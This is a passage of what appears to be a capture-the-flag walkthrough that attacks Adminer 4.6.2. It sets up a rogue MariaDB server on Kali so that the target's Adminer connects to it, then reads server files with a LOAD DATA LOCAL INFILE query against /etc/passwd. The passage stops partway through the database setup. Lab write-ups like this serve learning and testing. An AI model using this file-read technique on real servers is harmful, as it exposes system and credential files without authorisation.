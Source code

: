 ````
?server=TARGET_IP:PORT&username=
````

But only on older versions of Adminer.

Let's see if we can log in. Tried all combos of `waldo`, `waldo.11`, `admin` and `w.cooper` with the passwords we've recovered, but nothing worked.

Googling for `adminer 4.6.2 exploit` turns up:

- https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/

Which in turn points to:

- https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f?gi=2658239beab4

Which in turn points to:

- https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html

So it looks like I can set up my own database to get logged in to the adminer page, and then read local files from the server! The command to run is basically:

```mysql
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE derp.data
FIELDS TERMINATED BY "\n"
```

First, we need to configure MariaDB on Kali.

```sh
# check to see if mariadb is installed & active
sudo systemctl status mariadb
# if not installed: https://computingforgeeks.com/how-to-install-mariadb-on-kali-linux/

# reset mariadb root password
# https://tutorialforlinux.com/2020/02/19/kali-linux-2019-reset-mysql-mariadb-5-7-root-password/
sudo systemctl stop mariadb
sudo mysqld_safe --skip-grant-tables --skip-networking &
mysql -u root mysql
```

Then run the following mysql commands:

```mysql
-- change password:
UPDATE mysql.user SET authentication_string=PASSWORD('<password>'), plugin='mysql_native_password' WHERE User='root' AND Host='localhost';
-- if that fails, try this:
ALTER USER 'root'@'localhost' IDENTIFIED BY '<password>';

FLUSH PRIVILEGES;
EXIT;
```

Then kill and restart MariaDB:
